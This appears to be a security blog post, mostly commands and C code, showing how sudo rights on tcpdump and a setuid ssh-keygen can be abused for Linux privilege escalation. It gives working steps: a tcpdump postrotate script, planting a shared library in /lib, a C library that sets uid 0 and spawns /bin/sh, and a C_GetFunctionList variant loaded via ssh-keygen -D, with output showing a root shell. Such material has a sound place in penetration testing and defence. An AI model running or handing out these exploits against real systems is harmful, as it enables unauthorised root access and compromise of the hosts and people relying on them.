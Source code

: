 ```yaml
---
title:  "Neat privilege escalation tricks"
categories: [Deep-Dive]
---
```


<blockquote>
  <p>Improvise, adapt and overcome!</p>
</blockquote>

A very well-known privileeg escalation trick involving `tcpdump` with sudo privileges (_very often found in large IT departments!_) involves executing a script instead of a postrotate command as so<sup>[1](https://gtfobins.github.io/gtfobins/tcpdump/)</sup>:

```bash
$ COMMAND='id'
$ TF=$(mktemp)
$ echo "$COMMAND" > $TF
$ chmod +x $TF
$ tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
```

This is all nice and good but all defenders are already looking forthe `-z` command, and this trick is pretty easy to spot. But there's another privilege escalation technique, which also abuses the `sudo` privileges assigned to `tcpdump`, which works as follows:
* Abuse `tcpdump` privileges to create a writable file, in a privileged location:
```bash
$ sudo tcpdump -i eth0 -w /lib/x86_64-linux-gnu/shell.so -Z $USER
```
* Compile a dynamic library (code below):
```bash
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
* Overwrite the `shell.so` file created in the previous step, and make it `suid/sgid`:
```bash
$ cp shell.so /lib/x86_64-linux-gnu/
$ chmod 6755 /lib/x86_64-linux-gnu/shell.so
```
*	Profit!
```bash
$ LD_PRELOAD=shell.so sudo tcpdump
# whoami
root
```

Source code for the POC library:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

Another interesting situation I recently run into is `ssh-keygen` binary with `sudo` privileges:
```bash
$ ls -al `which ssh-keygen`
-rwsr-xr-x 1 root root 477488 Aug  4 22:02 /usr/bin/ssh-keygen
```
There's an entry on GTFOBins for this<sup>[2](https://gtfobins.github.io/gtfobins/ssh-keygen/)</sup>, which hints at creating a shared library and load it via the `-D` parameter. This is the tricky part however. If we simply compile the library and try to force `ssh-keygen` to lod it, we get the following error:
```bash
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ ssh-keygen -D shell.so
shell.so does not contain expected string C_GetFunctionList
provider shell.so is not a PKCS11 library
cannot read public key from pkcs11
```

We can trace the error to the [ssh-pkcs11.c](https://github.com/openssh/libopenssh/blob/ea5ceecdc2037c5e6e807ab3702fbe3f319351d0/ssh/ssh-pkcs11.c#L486) source file:
```c
	if (pkcs11_provider_lookup(provider_id) != NULL) {
		error("provider already registered: %s", provider_id);
		goto fail;
	}
	/* open shared pkcs11-libarary */
	if ((handle = dlopen(provider_id, RTLD_NOW)) == NULL) {
		error("dlopen %s failed: %s", provider_id, dlerror());
		goto fail;
	}
	if ((getfunctionlist = dlsym(handle, "C_GetFunctionList")) == NULL) {
		error("dlsym(C_GetFunctionList) failed: %s", dlerror());
		goto fail;
	}
	p = xcalloc(1, sizeof(*p));
	p->name = xstrdup(provider_id);
	p->handle = handle;
	/* setup the pkcs11 callbacks */
	if ((rv = (*getfunctionlist)(&f)) != CKR_OK) {
		error("C_GetFunctionList failed: %lu", rv);
		goto fail;
	}
```
So our library needs to contain a function called `C_GetFunctionList` which accepts a pointer as its only argument and returns an `int`. We change the function definition as follows:
```c
int C_GetFunctionList(int param)
```
Recompile and profit:
```bash
$ gcc -c -o shell.o shell.c -Wall -Werror -fpic -I.
$ gcc -shared -o shell.so shell.o
$ ssh-keygen -D ./shell.so
# id
uid=0(root) gid=0(root) groups=0(root),1000(kali)
```

## References
1. [GTFOBins - tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/)
2. [GTFOBins - ssh-keygen](https://gtfobins.github.io/gtfobins/ssh-keygen/)
